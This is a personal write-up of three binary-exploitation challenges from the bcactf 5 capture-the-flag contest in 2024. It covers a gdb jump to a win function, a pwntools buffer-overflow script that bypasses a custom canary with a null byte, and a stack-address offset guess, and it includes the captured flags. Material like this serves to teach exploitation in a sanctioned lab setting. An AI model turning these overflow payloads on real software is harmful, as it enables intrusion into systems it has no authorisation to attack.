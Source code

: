 ```yaml
---
title: 'bcactf 5 2024'
external: false
description: 'Here is the solutions to some of the challenges in bcactf 5'
date: 2024-06-26
---
```


# Background Information
I went to this competition as BT Lazy Bums, we did a lot worse than we expected but what could we do? I got lazy so I'm just gonna post the pwn challenges I did.

## Binary Exploitation

### Inaccessable
> I wrote a function to generate the flag, but don't worry, I bet you can't access it!
This felt more like a reverse engineering challenge, but the solve is simple.

Load up gdb and do `info functions`

```bash
0x0000000000400536  c
0x0000000000400599  f
0x00000000004005ea  win
0x00000000004006b8  main
```

So we have a win function. And the hint said to just jump to it. Ok.

```bash
gef➤  jump win
Continuing at 0x4005ee.
bcactf{W0w_Y0u_m4d3_iT_b810c453a9ac9}
[Inferior 1 (process 39665) exited with code 046]
```


### canary keeper
> My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

Based on the title, the solution for this problem is to bypass the "canary", which is basically an alarm that will close a program once it detects a buffer overflow.

Let's look at the code:

(binary ninja)
```c

int32_t main(int32_t argc, char** argv, char** envp)
{
    int64_t var_48;
    __builtin_strncpy(&var_48, "FLAG", 0x40);
    int32_t var_4f;
    __builtin_strncpy(&var_4f, "canary", 7);
    printf("Enter a string: ");
    void buf;
    gets(&buf);
    int32_t rax_3;
    if (check_canary(&var_4f) == 0)
    {
        puts("Buffer overflow detected!");
        rax_3 = 1;
    }
    else if (check_flag(&var_48) == 0)
    {
        printf("Flag: %s\n", "FLAG");
        rax_3 = 0;
    }
    else
    {
        puts("No changes in flag detected!");
        rax_3 = 1;
    }
    return rax_3;
}

```

So as we can see that the input size is 73, and that there is a custom canary coded. What we can do with this is to overflow the binary, but append the canary so that it passes the check.

Here's our tactic: 

1. Input 73 A's and append the binary string "canary" 
2. Add a four character anything. I'll just use flag
3. Get the flag.

Unfortunately I didn't realize that you had to use null bytes in order to allow the canary to bypas the check with data after it. Two days to realize that.

So here's the solve script:

```python
from pwn import *
from pwn import p64
elf = ELF('./provided')


#its 73 space in the input(?)

if args.REMOTE:
    r = remote('challs.bcactf.com', 32101)
else:
    r = process(elf.path)


payload = b'A' * (73)
#does the canary check(?)
payload += b'canary'
payload += b'\x00'
payload += b'flag'

#payload += p64(0x63616e617279)

print(payload)
r.sendline(payload)
print(r.recvall())

```

And we get the flag.

```bash
[*] '/home/jake/bcactf/canary/provided'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.bcactf.com on port 32101: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcanary\x00flag'
[+] Receiving all data: Done (58B)
[*] Closed connection to challs.bcactf.com port 32101
b'Enter a string: Flag: bcactf{s1mple_CANaRY_9b36bd9f3fd2f}\n'
jake@edgygamer:~/bcactf/canary$ 
```

### pwnage
> It's either a bug, a hack, an exploit, or it's pwnage. Let this challenge stand as one of the first of many stairs to mastery over that which can only be described as pwn.

Let's look at the source code provided. 

```c

int main() {
    // Hint: how do these values get stored?
    void* first_var;
    char* guess;
    char flag[100];
    load_flag(flag, 100);

    puts("Welcome to the most tasmastic game of all time!");
    wait_for(3);
    puts("Basically it's just too simple, I've put the");
    puts("flag into the memory and your job is ... to");
    puts("guess where it is!!");
    wait_for(2);
    puts("Have fun!");
    wait_for(1);
    puts("Oh and before you start, I'll give you a little");
    puts("hint, the address of the current stackframe I'm");
    printf("in is %p\n", (&first_var)[-2]);
    wait_for(3);
    puts("Okay anyway, back to the game. Make your guess!");
    puts("(hexadecimals only, so something like 0xA would work)");
    printf("guess> ");

    guess = read_pointer();

    wait_for(3);

    puts("Okay, prepare yourself. If you're right this");
    puts("will print out the flag");
    
    wait_for(1);
    puts("Oh, and if your wrong, this might crash and");
    puts("disconnect you\nGood luck!");

    printf("%s\n", guess);

    return 1;
}
```

Ok, so it prints out the current stack frame of first_var. It then asks for a guess in hexadecimal format, which is a guess for the stack frame of the flag.

We can look at this part specifically:

```c
void* first_var;
char* guess;
char flag[100];
load_flag(flag, 100);
```

So all we need to do is "shift" upwards by adding bytes to the stackframe. Simple. I kind of guessed the offset, but it seems to be 0x20 from the provided stackframe.

```bash
Welcome to the most tasmastic game of all time!
 . . .
Basically it's just too simple, I've put the
flag into the memory and your job is ... to
guess where it is!!
 . .
How fun is that!
 .
Oh and before you start, I'll give you a little
hint, the address of the current stackframe I'm
in is 0x7ffeb79507b0
 . . .
Okay anyway, back to the game. Make your guess!
(hexadecimals only, so something like 0xA would work)
guess> 0x7ffeb79507d0
 . . .
Okay, prepare yourself. If you're right this
will print out the flag
 .
Oh, and if your wrong, this might crash and
disconnect you
Good luck!
bcactf{0nE_two_thR3E_f0ur_567___sT3ps_t0_PwN4G3_70cc0e5edd6ea}
```

